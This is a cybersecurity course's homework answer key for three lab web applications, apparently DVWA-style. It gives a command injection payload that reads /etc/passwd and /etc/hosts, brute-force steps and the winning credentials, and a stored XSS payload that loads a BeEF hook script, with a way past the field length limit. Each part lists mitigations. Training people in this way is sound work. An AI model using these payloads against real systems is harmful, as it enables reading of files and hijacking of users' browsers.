




# Unit 15 Homework Solution Guide

## Web Application 1: *Your Wish is My Command Injection*

You were tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:
   
   - `/etc/passwd`
   
   - `/etc/hosts`
  
   **Hint:** Try testing out a command directly on the command line to help design your payload.

### Solution

The payload to access `/etc/passwd` is  ` 8.8.8.8 && cat ../../../../../etc/passwd`.
  
  - Response should resemble: 
  
    ```
    PING 8.8.8.8 (8.8.8.8): 56 data bytes
    64 bytes from 8.8.8.8: icmp_seq=0 ttl=112 time=10.782 ms
    --- 8.8.8.8 ping statistics ---
    4 packets transmitted, 4 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 10.782/13.324/19.145/3.394 ms
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ........(more records from the /etc/passwd)
    ```


The payload to access `/etc/hosts` is   ` 8.8.8.8 && cat ../../../../../etc/hosts`.
  
  - Response should resemble:

    ```            
    PING 8.8.8.8 (8.8.8.8): 56 data bytes
    64 bytes from 8.8.8.8: icmp_seq=0 ttl=112 time=14.212 ms
    --- 8.8.8.8 ping statistics ---
    4 packets transmitted, 4 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 11.580/13.453/14.394/1.118 ms
    127.0.0.1	localhost
    ::1	localhost ip6-localhost ip6-loopback
    fe00::0	ip6-localnet
    ff00::0	ip6-mcastprefix
    ff02::1	ip6-allnodes
    ff02::2	ip6-allrouters
    192.168.13.25	ab6396809425
    ```
  
**Deliverable**: There are many acceptable mitigations, including server-side input validation and server-side access control on files and directories.


## Web Application 2: *A Brute Force to Be Reckoned With*
 
Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators that accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.

   - Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application. 

   - You've been provided with a list of administrators and the breached passwords:

     - [List of Administrators](listofadmins.txt)
     
     - [Breached list of Passwords](breached_passwords.txt)
  
   - Hint: Refer back to the Burp Intruder activity `10_Brute_Force` from Day 3 for guidance.

### Solution

- After using Burp Intruder, the only user/password combination that should work is:
    
    - User:  `tonystark`
    
    - Password: `I am Iron Man`

- After rendering the page for this success record, the message will say: `Successful login! You really are Iron Man :)`

**Deliverable**: There are many acceptable mitigations, including password controls such as password rotation, password lockout, and multi-factor authentication.

## **Web Application 3** : *Where's the BeEF?*

You were tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

- Task details:

  - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
  - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
  - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

-  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
  - **Hint:** Try right-clicking and selecting "Inspecting the Element".
    
- Once you are able to hook into Replicants website, attempt a couple BeEF exploits. 

### Solution

- The field does not have enough space to fit the entire payload. 

  

- In order to add the entire payload, the `message` field length needs to be expanded.

  - *Note that this can also be accomplished using BURP to bypass the client-side limitations.*
  
  - To accomplish this, right-click within the `message` field and select `Inspect the element`.

    
 
- At the bottom of this page, you can find the `message` field HTML parameters.

  - Manually change the `max length` field from 50 to 100.

  
 
- Return to the origin page and enter the entire payload: `<script src="http://127.0.0.1:3000/hook.js"></script>` and click `sign guestbook`.

- When you return to BeEF, you can see your new browser has been hooked, allowing you to run a variety of BeEF commands.

  


**Deliverable**: Users can implement server-side input validation to protect against the XSS attack. Users should have strong endpoint protection to monitor for exploits such as BeEF running within their browser. Additionally, some browsers have built-in controls to protect against Beef hooking their browsers.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
